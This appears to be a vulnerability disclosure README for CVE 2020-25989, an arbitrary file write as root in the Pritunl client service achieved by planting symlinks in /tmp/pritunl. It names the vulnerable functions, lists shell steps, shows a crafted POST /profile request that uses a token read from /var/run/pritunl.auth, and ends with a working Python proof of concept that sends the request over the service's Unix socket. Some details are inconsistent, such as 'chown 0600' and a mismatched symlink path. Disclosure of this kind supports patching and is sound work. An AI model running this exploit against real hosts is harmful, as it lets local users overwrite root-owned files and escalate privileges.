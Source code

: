 # Arbitrary File Write in Pritunl (CVE 2020-25989)

## Vulnerability

Arbitrary file write as root in pritunl versions between 1.0.1116.6 and
v1.2.2550.20. The pritunl-service writes to the following paths as root without checking if the file exists.

<ol>
<li>/tmp/pritunl/{profile_id}</li>
<li>/tmp/pritunl/{profile_id}-down.sh</li>
<li>/tmp/pritunl/{profile_id}-up.sh</li>
<li>/tmp/pritunl/{profile_id}-block.sh</li>
<li>/tmp/pritunl/{profile_id}.auth</li>
</ol>

the /tmp/pritunl/{profile_id}.auth path allows for fully controlled contents to be written to an arbitrary file on the host by placing a symlink in place of the file and submitting a malicious Profile POST request to the service with a crafted username and password. 

The following steps outline how to setup the test data.
```
touch /tmp/root_test
sudo chown 0600 /tmp/root_test
```
The following steps outline how to exploit the vulnerability.
```
mkdir /tmp/pritunl
ln -s /tmp/root_test /tmp/123467.auth
```
An attacker can then get the auth token required to interact with the service by reading 
```
/var/run/pritunl.auth
```
The following example post request is then used to exploit the vulnerability.
```
POST /profile HTTP/1.1
Auth-Key: Tp0JSp3iugTipiq2U9CpJcHuGkQGM3VvspS6gu6rtUfLCmOOlzl0gFkEFGiX67Zc
User-Agent: pritunl
Host: unix
accept: application/json
content-type: application/json
content-length: 286
Connection: close

{"id":"1234567","mode":"ovpn","org_id":"org_id_test","user_id":"user_id_test","server_id":"server_id_test","sync_token":"sync_token_test","sync_secret":"sync_secret_test","username":"username_test","password":"password_test","token_ttl":12345678,"reconnect":false,"timeout":false}
```

The strings "username_test" and "password_test" will be written to the file at the symlink (in this example that file is /tmp/root_test).

The contents of /tmp/root_test will now be.
```
username_test
password_test
```
These issues stem from the following functions in /service/Profile/Profile.go

<ol>
<li>write()</li>
<li>writeDown()</li>
<li>writeUp()</li>
<li>writeBlock()</li>
<li>writeAuth()</li>
</ol>
These functions call ioutil.WriteFile directly on the path that is generated without first checking if these files exist, allowing an attacker to create a symlink at /tmp/pritunl/{file} allowing for arbitrary file write as root.

## PoC

Python PoC to interact with the pritunl-service and exploit the vulnerability 

```
import socket
import os 

os.mkdir("/tmp/pritunl")
file_overwirte_path = "/tmp/root_test"
os.symlink(file_overwirte_path, "/tmp/pritunl/1234567.auth")

server_address = "/var/run/pritunl.sock"
auth = open("/var/run/pritunl.auth", "r").read()

payload = """POST /profile HTTP/1.1
Auth-Key: """ + auth + """
User-Agent: pritunl
Host: unix
accept: application/json
content-type: application/json
content-length: 286
Connection: close

{"id":"1234567","mode":"ovpn","org_id":"org_id_test","user_id":"user_id_test","server_id":"server_id_test","sync_token":"sync_token_test","sync_secret":"sync_secret_test","username":"root_file_write","password":"test","token_ttl":12345678,"reconnect":false,"timeout":false}
"""
sock = socket.socket(socket.AF_UNIX, socket.SOCK_STREAM)
sock.connect(server_address)
sock.sendall(payload.encode('utf-8'))
```
